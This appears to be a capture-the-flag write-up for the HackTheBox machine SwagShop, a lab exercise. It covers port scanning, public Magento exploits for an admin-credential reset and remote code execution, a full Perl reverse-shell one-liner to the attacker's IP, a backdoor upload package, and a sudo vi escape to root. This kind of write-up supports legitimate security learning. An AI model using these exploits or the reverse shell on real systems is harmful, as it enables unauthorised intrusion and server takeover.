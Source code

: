 ```yaml
---
categories:
- CTF
layout: post
media_subpath: /assets/posts/2019-05-16-swagshop-hackthebox
tags:
- cve
- hackthebox
- linux
- magento
- sudo
title: SwagShop @ HackTheBox
---
```


SwagShop is a very easy machine on hackthebox, involving a public exploit and sudo abuse.

## User Flag

We start with a quick port scan:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://10.10.10.140/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On port 80 we see an installation of a magento shop:

![](htb_swagshop_web.png)

The footer reveals its from 2014 so there might be some exploits available. We can see at this [page](https://www.cloudways.com/blog/ten-years-of-magento-versions/) that the most recent version in 2014 was 1.9.x so we focus on that one for now. We run `searchsploit magento` and notice an exploit specifically targeting 1.9.0.1:

```
...
Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution      | exploits/php/webapps/37811.py
...
```

We look through the source to do our due diligence and see that we have to set some variables for it to work:

```
username = ''
password = ''
php_function = 'system'  # Note: we can only pass 1 argument to the function
install_date = 'Wed, 08 May 2019 07:23:09 +0000'  # This needs to be the exact date from /app/etc/local.xml
```

For the username/password bit it wants admin credentials which we do not have at this point. We find another [exploit](https://www.exploit-db.com/exploits/37977) that allows us to potentially overwrite the admin credentials! After changing the url in the script we run it and it successfully changes the admin credentials for us:

```
WORKED
Check http://10.10.10.140/admin with creds forme:forme
```

We can now use the first exploit! Besides entering the admin credentials, we also have to retrieve the file "/app/etc/local.xml" via curl and enter the installation date into the script (like it says in the comment):

```
username = 'forme'
password = 'forme'
php_function = 'system'  # Note: we can only pass 1 argument to the function
install_date = 'Sat, 15 Nov 2014 20:27:57 +0000'  # This needs to be the exact date from /app/etc/local.xml
```

We run the script `python 37811.py http://swagshop.htb 'whoami'` but notice that it doesn’t quite work yet:

```
 raise ControlNotFoundError("no control matching "+description)
mechanize._form.ControlNotFoundError: no control matching name 'login[password]'
```

It looks like the endpoint is wrong. Some googling reveals we have to call it like this:

```
python 37811.py http://swagshop.htb/index.php/admin/index 'whoami'
```

We use the RCE and replace ‘whoami’ with a perl shell:

```
perl -e 'use Socket;$i="10.10.16.66";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};
```

```
connect to [10.10.16.66] from swagshop.htb [10.10.10.140] 41344
$ whoami
www-data
$ cd /home/haris
$ wc -lc user.txt
 1 33 user.txt
```

The "37811.py" exploit is kind of unreliable – an alternative way to get RCE, is to upload a malicious [package](https://github.com/lavalamp-/LavaMagentoBD) to <http://swagshop.htb/downloader>. After uploading we send a Post-Request to "/index.php/lavalamp/index", with the parameter "c" containing our shell command.

## Root Flag

Root was very easy on this box. We run `sudo -l` and see the following:

```
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```

This means we can get a root shell without any effort:

```
sudo /usr/bin/vi /var/www/html/xct
:!/bin/bash
whoami
root
wc -lc /root/root.txt
 10 270 /root/root.txt
```

Thanks to [ch4p](https://www.hackthebox.eu/home/users/profile/1) for creating the box.